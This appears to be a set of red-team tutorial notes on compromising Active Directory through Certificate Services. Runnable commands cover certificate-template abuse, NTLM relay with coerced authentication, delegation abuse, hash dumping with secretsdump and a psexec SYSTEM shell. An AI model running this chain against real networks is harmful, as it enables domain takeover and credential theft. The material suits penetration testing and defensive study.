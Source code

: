 ```yaml
---
title: Attacking Active Directory Certificate Services
tags:
  - breach
  - operations
  - attack
  - active
  - directory
  - certificates
  - services
  - service
  - certificate
  - certify
  - certipy
  - specter
  - ops
  - powersploit
  - powerview
  - rubeus
  - bloodhound
  - coercer
  - proxychains
  - certifried
  - impacket
  - metasploit
  - relay
---
```


A majority of the discussion in this section references
[a SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
paper on abusing **Active Directory Certificate Services (ADCS)**.

## Misconfigured certificate templates

We can use the [Certify](https://github.com/GhostPack/Certify) toolkit to
identify vulnerable certificate templates by invoking the following:

```powershell
Start-Process `
	-FilePath ".\Certify.exe" `
	-ArgumentList @(
		"find",
		"/vulnerable"
	)
```

If we identify a vulnerable certificate template that enables low-privileged
users to enroll certificates with an alternative subject name and that allow
user login, we can use
[PowerSploit's PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
tool to identify Domain Administrators by invoking the following:

```powershell
. .\PowerView.ps1
Get-DomainGroupMember -Identity 'Domain Admins'
```

Finding a valid Domain Admin, we can use the **Certify** toolkit again to enroll
a certificate:

```powershell
Start-Process `
	-FilePath ".\Certify.exe" `
	-ArgumentList @(
		"request",
		"/ca:${DOMAIN}\${DOMAIN_CONTROLLER}",
		"/template:${TEMPLATE_NAME}",
		"/altname:${DOMAIN_ADMIN_USERNAME}"
	)
```

After successfully enrolling a certificate, a certificate will be printed to
`stdout` starting with `-----BEGIN RSA PRIVATE KEY-----`. Write all of the
contents of the certificate to a `.pem` file so we can operate on it. Using
**openssl**, we can convert the certificate to a `.pfx` file:

```powershell
Start-Process `
	-FilePath "openssl" `
	-ArgumentList @(
		"pkcs12",
		"-in",
		"${PEM_FILE}",
		"-keyex",
		"-CSP",
		"'Microsoft Enhanced Cryptographic Provider v1.0'",
		"-export",
		"-out",
		"${OUTFILE}.pfx"
	)
```

With our new `.pfx` certificate in hand, we can use
[Rubeus](https://github.com/GhostPack/Rubeus) to request a **Ticket Granting
Ticket (TGT)** by invoking the following, injecting the TGT into our user's
memory:

```powershell
Start-Process `
	-FilePath ".\Rubeus.exe" `
	-ArgumentList @(
		"asktgt",
		"/user:${DOMAIN_ADMIN_USERNAME}",
		"/certificate:${OUTFILE}.pfx",
		"/password:${CERTIFICATE_PASSWORD}",
		"/ptt"
	)
```

## Attacking ADCS HTTP endpoints

The ADCS certificate enrollment process typically involves an HTTP-based web
server that hosts an ASP application endpoint at
`http://${CASERVERHOSTNAME}/certsrv`. The enrollment server doesn't always use
HTTPS by default, making it vulnerable to an HTTP relay attack.

When we perform our attack, we trick privileged accounts like machine or service
accounts, e.g. the Domain Controller account, to authenticate to our attacker
machine. We can then relay this authentication to the certificate enrollment
service while requesting access to a certificate template that contains Client
Authentication to a target we want to compromise.

Using the [Certipy](https://github.com/ly4k/Certipy) tool, we can enumerate a
domain's certificate templates for vulnerable configurations by invoking the
following:

```bash
certipy-ad find -u "${USER}@${DOMAIN}" -p "${PASSWORD}" -dc-ip ${DOMAIN_CONTROLLER_IPADDR} -enabled
```

We could use a tool like [Bloodhound](https://github.com/SpecterOps/BloodHound)
to interpret the results of the above invocation. Finding a vulnerable template,
we can use **impacket-ntlmrelayx** to stage our NTLM relay:

```bash
impacket-ntlmrelayx -t "http://${CA_HOSTNAME}/certsrv/certfnsh.asp" --adcs --template ${VULNERABLE_TEMPLATE} -smb2support
```

We can use the [Coercer](https://github.com/p0dalirius/Coercer) toolkit to
coerce the Domain Controller account to authenticate to our fake service using
vulnerable RPC commands. In the following example, we abuse the
`EfsRpcAddUsersToFile` RPC endpoint:

```bash
coercer coerce --target-ip ${DC_IPADDR} --l ${LHOST} -u ${USER} -p ${PASS} --filter-method-name EfsRpcAddUsersToFile
```

After invoking the above, the Domain Controller will authenticate to us and our
NTLM relay will use the Domain Controller's authentication to enroll a new
certificate for authentication. **impacket** will proceed to write the `.pfx`
certificate to disk.

## Abusing LDAP with certs

Sometimes the Kerberos Key Distribution Center (KDC) doesn't have certificate
authentication enabled. We can abuse LDAP with a certificate we've enrolled for
the Domain Controller to pivot and pwn the domain.

Using [bloodyAD](https://github.com/CravateRouge/bloodyAD), we see if we can
create a new computer within the domain:

```bash
python bloodyAD.py -d ${DOMAIN} -u ${USER} -p ${PASS} --host ${DC_IPADDR} get object "DC=${DOMAIN},DC=com" --attr ms-DS-MachineAccountQuota
```

If the `ms-DS-MachineAccountQuota` is greater than 0, we're good to go for
creating a new host. We can invoke the following to do this:

```bash
python bloodyAD.py -d ${DOMAIN} -u ${USER} -p ${PASS} --host ${DC_IPADDR} add computer ${COMPUTERNAME} ${COMPUTERPASSWORD}
```

We invoke the following to convert our `.pfx` file to a `.pem` file and then use
the Domain Controller's certificate to enable our new computer to impersonate
users:

```bash
openssl pkcs12 -in ${CERT}.pfx -out ${CERT}.pem -nodes
python bloodAD.py -d ${DOMAIN} -c ":${CERT}.pem" -u "${COMPUTERNAME}$" --host ${DC_IPADDR} add rbcd "${DC_COMPUTERNAME}$" "${COMPUTERNAME}$"
```

With the ability to impersonate any user, let's acquire a Kerberos TGT for the
**Administrator** account on the Domain Controller:

```bash
impacket-getST -spn LDAP/${DC_COMPUTERNAME}.${DOMAIN} -impersonate Administrator -dc-ip ${DC_IPADDR} "${DOMAIN}/${COMPUTERNAME}:${PASSWORD}"
```

This will create a `.ccache` file for the user we've impersonated. Using
techniques from our
[[linux-lateral-movement#Impacket|Linux lateral movement - Impacket]] and
[[windows-lateral-movement#Metasploit|Windows lateral movement - Metasploit]]
discussions, we can establish a **SOCKS5** proxy with our current access into
the domain and use **proxychains** to enumerate and attack the domain with our
new Kerberos TGT.

For example, we can dump all NTLM hashes from the domain controller by invoking
the following:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/secretsdump.py "${DOMAIN}/Administrator@${DC_COMPUTERNAME}.${DOMAIN}" -k -no-pass -dc-ip ${DC_IPADDR} -target-ip ${DC_IPADDR}
```

Even juicier, let's obtain a shell as **SYSTEM** on the Domain Controller using
`psexec`:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/psexec.py "${DOMAIN}/Administrator@${DC_COMPUTERNAME}.${DOMAIN}" -k -no-pass -dc-ip ${DC_IPADDR} -target-ip ${DC_IPADDR}
```

## References

- [AD Certifried](https://cravaterouge.com/articles/ad-certifried/)

